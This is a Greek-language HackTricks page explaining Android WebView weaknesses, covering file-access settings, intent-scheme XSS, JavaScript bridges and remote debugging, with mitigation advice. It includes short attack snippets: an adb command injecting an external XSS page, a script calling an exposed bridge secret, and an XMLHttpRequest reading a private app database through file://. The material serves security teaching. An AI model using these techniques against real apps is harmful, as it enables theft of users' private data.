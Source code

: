 # Επιθέσεις στο WebView

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Απλοποιημένος Οδηγός για τις Διαμορφώσεις και την Ασφάλεια του WebView

### Επισκόπηση των Ευπαθειών του WebView

Ένα κρίσιμο κομμάτι της ανάπτυξης Android αφορά τη σωστή χειρισμό των WebViews. Αυτός ο οδηγός αναδεικνύει τις βασικές διαμορφώσεις και πρακτικές ασφαλείας για τη μείωση των κινδύνων που συνδέονται με τη χρήση του WebView.

![Παράδειγμα WebView](../../.gitbook/assets/image%20(718).png)

### **Πρόσβαση σε Αρχεία στα WebViews**

Από προεπιλογή, τα WebViews επιτρέπουν την πρόσβαση σε αρχεία. Αυτή η λειτουργία ελέγχεται από τη μέθοδο `setAllowFileAccess()`, διαθέσιμη από το επίπεδο API του Android 3 (Cupcake 1.5). Οι εφαρμογές με την άδεια **android.permission.READ_EXTERNAL_STORAGE** μπορούν να διαβάσουν αρχεία από εξωτερική αποθήκευση χρησιμοποιώντας ένα σχήμα URL αρχείου (`file://path/to/file`).

#### **Αποσυντεθειμένες Λειτουργίες: Universal και Πρόσβαση σε Αρχεία από URLs**

- **Universal Access From File URLs**: Αυτή η αποσυντεθειμένη λειτουργία επέτρεπε αιτήσεις cross-origin από URLs αρχείων, δημιουργώντας ένα σημαντικό κίνδυνο ασφάλειας λόγω πιθανών επιθέσεων XSS. Η προεπιλεγμένη ρύθμιση είναι απενεργοποιημένη (`false`) για εφαρμογές που στοχεύουν σε Android Jelly Bean και νεότερες εκδόσεις.
- Για να ελέγξετε αυτήν τη ρύθμιση, χρησιμοποιήστε τη μέθοδο `getAllowUniversalAccessFromFileURLs()`.
- Για να τροποποιήσετε αυτήν τη ρύθμιση, χρησιμοποιήστε τη μέθοδο `setAllowUniversalAccessFromFileURLs(boolean)`.

- **Πρόσβαση σε Αρχεία από File URLs**: Αυτή η λειτουργία, επίσης αποσυντεθειμένη, ελέγχει την πρόσβαση σε περιεχόμενο από άλλα URLs σχήματος αρχείου. Όπως και η παγκόσμια πρόσβαση, η προεπιλεγμένη ρύθμιση είναι απενεργοποιημένη για ενισχυμένη ασφάλεια.
- Χρησιμοποιήστε τη μέθοδο `getAllowFileAccessFromFileURLs()` για να ελέγξετε και τη μέθοδο `setAllowFileAccessFromFileURLs(boolean)` για να ορίσετε.

#### **Ασφαλής Φόρτωση Αρχείων**

Για την απενεργοποίηση της πρόσβασης στο σύστημα αρχείων ενώ εξακολουθεί να γίνεται πρόσβαση σε πόρους και περιεχόμενο, χρησιμοποιείται η μέθοδος `setAllowFileAccess()`. Από το Android R και νεότερες εκδόσεις, η προεπιλεγμένη ρύθμιση είναι `false`.
- Ελέγξτε με τη μέθοδο `getAllowFileAccess()`.
- Ενεργοποιήστε ή απενεργοποιήστε με τη μέθοδο `setAllowFileAccess(boolean)`.

#### **WebViewAssetLoader**

Η κλάση **WebViewAssetLoader** είναι η σύγχρονη προσέγγιση για τη φόρτωση τοπικών αρχείων. Χρησιμοποιεί http(s) URLs για την πρόσβαση σε τοπικούς πόρους και περιεχόμενο, ευθυγραμμίζοντας με την πολιτική ίδιας προέλευσης (Same-Origin policy), διευκολύνοντας έτσι τη διαχείριση του CORS.

### **Χειρισμός JavaScript και Σχήματος Intent**

- **JavaScript**: Απενεργοποιημένο από προεπιλογή στα WebViews, μπορεί να ενεργοποιηθεί μέσω της μεθόδου `setJavaScriptEnabled()`. Συνιστάται προσοχή καθώς η ενεργοποίηση του JavaScript χωρίς κατάλληλα μέτρα προστασίας μπορεί να εισάγει ευπάθειες ασφαλείας.

- **Χειρισμός Σχήματος Intent**: Τα WebViews μπορούν να χειριστούν το σχήμα `intent`, με τον κίνδυνο πιθανών εκμεταλλεύσεων εάν δεν διαχειριστούν προσεκτικά. Ένα παράδειγμα ευπάθειας περιλάμβανε ένα εκτεθέν WebView παράμετρο "support_url" που θα μπορούσε να εκμεταλλευτεί για την εκτέλεση επιθέσεων cross-site scripting (XSS).

![Ευπαθές WebView](../../.gitbook/assets/image%20(719).png)

Παράδειγμα εκμετάλλευσης χρησιμοποιώντας το adb:
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
### Γέφυρα Javascript

Το Android παρέχει μια δυνατότητα που επιτρέπει στο **JavaScript** σε ένα WebView να καλεί **συναρτήσεις της εφαρμογής Android**. Αυτό επιτυγχάνεται χρησιμοποιώντας τη μέθοδο `addJavascriptInterface`, η οποία ενσωματώνει το JavaScript με τις λειτουργίες της εφαρμογής Android, γνωστή ως _γέφυρα JavaScript του WebView_. Συνιστάται προσοχή, καθώς αυτή η μέθοδος επιτρέπει σε όλες τις σελίδες εντός του WebView να έχουν πρόσβαση στο εγγεγραμμένο αντικείμενο διεπαφής JavaScript, δημιουργώντας έναν κίνδυνο ασφαλείας εάν ευαίσθητες πληροφορίες αποκαλυφθούν μέσω αυτών των διεπαφών.

### Σημαντικές Επισημάνσεις

- **Απαιτείται ακραία προσοχή** για εφαρμογές που στοχεύουν σε εκδόσεις Android κάτω από 4.2 λόγω μιας ευπάθειας που επιτρέπει την απομακρυσμένη εκτέλεση κώδικα μέσω κακόβουλου JavaScript, εκμεταλλευόμενο την αντανάκλαση.

#### Υλοποίηση μιας γέφυρας JavaScript

- Οι **διεπαφές JavaScript** μπορούν να αλληλεπιδρούν με τον καταγεγραμμένο κώδικα, όπως φαίνεται στα παραδείγματα όπου μια μέθοδος της κλάσης εκτίθεται στο JavaScript:
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
- Η γέφυρα JavaScript ενεργοποιείται προσθέτοντας μια διεπαφή στο WebView:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```
- Δυνητική εκμετάλλευση μέσω JavaScript, για παράδειγμα, μέσω επίθεσης XSS, επιτρέπει την κλήση αποκαλυμμένων μεθόδων Java:
```html
<script>alert(javascriptBridge.getSecret());</script>
```
- Για να μειώσετε τους κινδύνους, **περιορίστε τη χρήση της γέφυρας JavaScript** στον κώδικα που αποστέλλεται με το APK και αποτρέψτε τη φόρτωση JavaScript από απομακρυσμένες πηγές. Για παλαιότερες συσκευές, ορίστε το ελάχιστο επίπεδο API σε 17.

### Αντανάκλαση βασισμένη σε απομακρυσμένη εκτέλεση κώδικα (RCE)

- Μια τεκμηριωμένη μέθοδος επιτρέπει την επίτευξη RCE μέσω αντανάκλασης με την εκτέλεση ενός συγκεκριμένου φορτίου. Ωστόσο, η αναφορά `@JavascriptInterface` αποτρέπει την μη εξουσιοδοτημένη πρόσβαση σε μεθόδους, περιορίζοντας την επιθετική επιφάνεια.

### Απομακρυσμένος εντοπισμός σφαλμάτων

- Ο **απομακρυσμένος εντοπισμός σφαλμάτων** είναι δυνατός με τα **Chrome Developer Tools**, επιτρέποντας την αλληλεπίδραση και την αυθαίρετη εκτέλεση JavaScript μέσα στο περιεχόμενο του WebView.

#### Ενεργοποίηση απομακρυσμένου εντοπισμού σφαλμάτων

- Ο απομακρυσμένος εντοπισμός σφαλμάτων μπορεί να ενεργοποιηθεί για όλα τα WebViews μέσα σε μια εφαρμογή με τον εξής τρόπο:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
- Για να ενεργοποιήσετε συνθήκες εντοπισμού σφαλμάτων με βάση την κατάσταση debuggable της εφαρμογής:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## Εξαγωγή αυθαίρετων αρχείων

- Δείχνει την εξαγωγή αυθαίρετων αρχείων χρησιμοποιώντας ένα XMLHttpRequest:
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText);
}
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```
## Αναφορές
* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
